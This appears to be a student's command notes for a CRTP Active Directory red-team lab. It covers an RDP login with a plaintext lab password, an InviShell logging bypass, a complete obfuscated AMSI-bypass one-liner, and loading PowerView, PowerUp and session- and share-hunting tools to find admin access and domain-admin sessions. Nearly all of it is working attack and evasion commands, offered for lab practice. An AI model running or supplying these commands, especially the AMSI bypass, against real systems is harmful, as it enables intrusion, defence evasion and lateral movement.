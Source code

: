 ```powershell
xfreerdp3 /u:student548 /p:cAyF6wTLSydnL2M7 /v:172.16.100.48 /dynamic-resolution /drive:AD,/home/adot/certifications/crtp/lab
```

```powershell
net use A: \\TSCLIENT\Tools

A:\tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```powershell
copy A:\tools\* .
```

```powershell
Import-Module .\PowerView.ps1, .\PowerHuntShares.psm1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1, .\Invoke-SessionHunter.ps1
```

```powershell
Find-PSRemotingLocalAdminAccess
```

Create a servers.txt file
```powershell
Get-DomainComputer | select cn
```

Find DA sessions
```powershell
.\Invoke-SessionHunter -NoPortScan -Targets C:\Users\Public\servers.txt
```

Find shares
```powershell
Invoke-HuntSMBShares -NoPing -OutputDirectory C:\Users\Public -HostList C:\Users\Public\servers.txt
```

**REVIEW WHAT PRIVILEGES A USER HAS AFTER COMPROMISE**